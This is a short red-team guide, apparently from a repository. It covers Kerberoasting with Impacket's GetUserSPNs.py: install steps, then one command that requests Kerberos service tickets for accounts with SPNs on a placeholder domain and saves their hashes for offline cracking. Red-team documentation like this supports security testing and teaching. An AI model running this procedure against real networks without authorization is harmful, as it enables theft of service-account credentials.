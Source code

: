 # Red Team - Performing Kerberoasting

**Tool:** Impacket - GetUserSPNs.py  
**Tactic:** Credential Access  
**Technique:** Kerberoasting  
**MITRE ATT&CK ID:** T1558.003

## Requirements:
- Valid domain credentials (e.g., `john.doe@contoso.local`)
- dc-ip (e.g., `10.0.0.5`)
- Access to the internal network

## Install PIP3/Impacket
install pip3: 
```bash
sudo apt install python3-pip
```

Then: 
````bash
pip3 install pipx
````

Then: 
```bash
sudo apt install python3.10-venv
````

Then: 
````bash
python3 -m pipx install impacket
````
Then: 
````bash
python3 -m pipx ensurepath
````
Lastly: 
````bash
source ~/.bashrc
````

## Command Example:
```bash
python3 GetUserSPNs.py CONTOSO.LOCAL/john.doe -dc-ip 10.0.0.5 -outputfile kerberostickets.txt
````

## Expected Outcome

TGS requests sent for SPNs saved in keberostickets.txt

RC4-encrypted Kerberos service tickets returned

Hashes extracted and saved for offline cracking

